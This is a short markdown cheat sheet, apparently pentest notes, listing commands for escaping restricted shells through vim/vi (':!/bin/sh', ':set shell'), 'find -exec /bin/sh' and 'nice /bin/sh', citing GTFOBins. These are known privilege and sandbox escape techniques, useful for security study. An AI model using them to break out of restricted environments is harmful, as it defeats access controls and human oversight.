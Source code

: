 # Binary Execution

## 01 - Editors

### 1.1 - Nano

```

```

### 1.2 - Vi(m)

Open the text editor program.

```
$ vim

$ vi
```

Escape restricted shell in `vim` or `vi`.

```
:!/bin/sh

:!/bin/bash
```

Escape restricted shell in `vi`. You must set a predefined `shell` variable and invoke it.

```
:set shell=/bin/sh

:set shell=/bin/bash

:shell
```

## 02 - Find Files

```
$ find / -name "<name>" -exec /bin/sh \;

$ find / -name "<name>" -exec /bin/bash \;
```

## 03 - `nice`

```
$ nice /bin/sh

$ nice /bin/bash
```

---
## References

- [GTFOBins: Rvim](https://gtfobins.github.io/gtfobins/rvim/)

- [GTFOBins: Vim](https://gtfobins.github.io/gtfobins/vim/)

- [GTFOBins: Vi](https://gtfobins.github.io/gtfobins/vi/)

- [GTFOBins: Vimdiff](https://gtfobins.github.io/gtfobins/vimdiff/)